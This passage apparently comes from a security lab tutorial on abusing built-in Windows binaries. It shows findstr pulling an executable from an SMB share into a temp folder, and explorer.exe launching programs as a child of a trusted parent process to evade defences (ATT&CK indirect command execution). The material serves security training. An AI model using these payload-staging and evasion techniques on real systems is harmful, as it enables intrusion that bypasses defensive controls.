 For more information about the bitsadmin parameters, you can visit the [Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) of the tool.

### FindStr

[Findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)[ ](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)is a Microsoft built-in tool used to find text and string patterns in  files. The findstr tool is useful in that helps users and system  administrators to search within files or parsed output. For example, if  we want to check whether port 8080 is open on our machine, then we can  pipe the result of netstat to find that port as follows: netstat -an| findstr "445".

However, an unintended way was found by using findstr.exe to download remote files from SMB shared folders within the network as follows,

- **Command Prompt**

```shell-session
C:\Users\thm>findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

`/V` to print out the lines that don't contain the string provided.

`dummystring` the text to be searched for; in this case, we provide a string that must not be found in a file.

`\> c:\Windows\Temp\test.exe` redirect the output to a file on the target machine. 

#  File Execution

This task shows various ways of executing a binary within the operating  system. The typical case of executing a binary involves various known  methods such as using the command line cmd.exe or from the desktop. However, other ways exist to achieve payload  execution by abusing other system binaries, of which one of the reasons  is to hide or harden the payload's process. Based on the MITRE ATT&CK framework, this technique is called **Signed Binary Proxy Execution** or **Indirect Command Execution**, where the attacker leverages other system tools to spawn malicious  payloads. This technique also helps to evade defensive controls.

### File Explorer

File Explorer is a file manager and system component for Windows. People  found that using the file explorer binary can execute other .exe files. This technique is called **Indirect Command Execution**, where the explorer.exe tool can be used and abused to launch malicious scripts or executables from a trusted parent process.

The explorer.exe binary is located at:

- C:\Windows\explorer.exe for the Windows 32 bits version
- C:\Windows\SysWOW64\explorer.exe for the Windows 64 bits version

In order to create a child process of explorer.exe parent, we can execute the following command:

- **Command Prompt**

```shell-session
C:\Users\thm> explorer.exe /root,"C:\Windows\System32\calc.exe"
```
